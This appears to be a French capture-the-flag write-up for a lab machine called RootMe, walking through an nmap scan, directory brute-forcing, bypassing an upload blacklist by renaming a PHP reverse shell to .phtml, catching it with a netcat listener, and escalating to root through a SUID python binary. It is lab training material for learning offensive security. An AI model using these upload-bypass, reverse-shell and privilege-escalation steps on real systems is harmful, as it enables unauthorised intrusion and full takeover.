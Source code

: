 ctf rootme,ctf easy je crois

# 1 : SCAN NMAP
commande utilisée : nmap 10.10.237.48 -A -p-
détails :

-A  détection des versions/services

-p-  scan de tous les ports (pas juste les 1000 premiers)

-oN  output dans un fichier(genre -oN nmapresultats.txt)
# résultat :

port 22 : ssh → openSSH 7.6 (accès distant)

port 80 : http → apache 2.4.29 (serveur web ubuntu)

# enumeration web
le but ici etant de brute forcer les sous domaines 
gobuster dir -u http://10.10.237.48/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuset = nom de l'outil
dir = directory donc ppur les sous domaines
-u pour préciser l'url
-w pour le path de la wordlist
# résultat :
/uploads : stockage fichiers
/panel : interface d'upload
/css, /js : fichiers frontend
répertoire caché intéressant : /panel
alors on peut uploader des fichiers,donc la premeire option ici serait de uploader un reverse shell sur la machine,mais après upload,rien ne se passe,le code ici n'a pas été executé en raison d'un filtre sur les fichiers .php,ici le soucis est que c'est une blacklist et non une white list
white list : autorise seulement les fichiers autorisés dans la liste
black list : autorise seulement les fichiers non présent dans la blacklist
# objectif : uploader un reverse shell malgré un filtrage de l’extension .php
on prend un reverse shell donc par exemple celui de pentest monkey,un reerse shell en php
on modifie ip ety port mais ca je pense que vous le savez
puis on renomme le fichier en .phtml
en fait il y a plusieurs extensions de fichiers pour le php,le code sera executé de la meme maniere,je n'ai pas lexplication mais voila,en fait dans la blacklist il y avait php mais pas phtml
on upload
et ca passe !!!!
# reverse shell
objectif : exécuter le shell et avoir lacces
dabord on ecoute sur le port de notre rvshell
nc -lvnp 2121
puis on se rend ici 
http://10.10.237.48/uploads/php-reverse-shell.phtml
donc php reverse shell phtml es tle nom de mon fichier 
on a une connection!
# stabilisation
comme d'habitude on stabilise le shell avec du python 
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
apres ctrl z 
puis
stty raw -echo; fg
on peux maintenant : tab, clear, ctrl+c etc.
# enum
on tape whoami && ls /home
utilisateur = www-data
2 users : rootme, test
flag user dans
cd /var/www
cat user.txt
# privesc
but ? devenir root
chercher fichiers avec SUID (droits spéciaux root) :
find / -perm -4000 2>/dev/null
on en repere un plutot bizzare ( ON AURAIT AUSSI PU UTILISER LINPEAS COMEM G FAIT DANS ANONYMOUS MAIS HUM)
/usr/bin/python
si python a SUID, alors on peut faire :
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
 et on devient root sur la machine 
 on tape whoami pr confirmer
 on est roooooooooooooooooooooooooooooot
 puis le flag se trouve lka
cd /root
cat root.txt
VOILA REVIEW DE CETTE MACHINE 










